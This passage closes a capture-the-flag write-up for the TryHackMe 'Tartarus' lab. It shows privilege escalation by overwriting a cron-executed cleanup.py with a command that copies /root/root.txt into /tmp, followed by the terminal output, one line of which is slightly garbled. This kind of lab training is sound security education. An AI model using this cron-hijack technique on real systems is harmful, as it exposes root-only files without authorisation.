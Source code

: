 ```
echo '
import os
import sys 

os.system("cat /root/root.txt > /tmp/key")' > cleanup.py
```

We can check if this has been properly added to the `cleanup.py` file.

```
d4rckh@ubuntu-xenial:/tmp$ cd /home/d4rckh

d4rckh@ubuntu-xenial:/home/d4rckh$ echo '
import os
import sys 

os.system("cat /root/root.txt > /tmp/key")' > cleanup.pyecho '
d4rckh@ubuntu-xenial:/home/d4rckh$ cat cleanup.py


import os
import sys 

os.system("cat /root/root.txt > /tmp/key")
```

Now, as this file is being run by the `cron`. It'd automatically get executed in sometime and the flag would get written in the `/tmp/key` file.

```
d4rckh@ubuntu-xenial:/tmp$ cat key
```

And we get our root flag as well. So, with this we have completed the Tartarus room!



#### Links Referred

1. TryHackMe-Tartarus: https://tryhackme.com/room/tartaraus
2. GTFOBins: https://gtfobins.github.io/



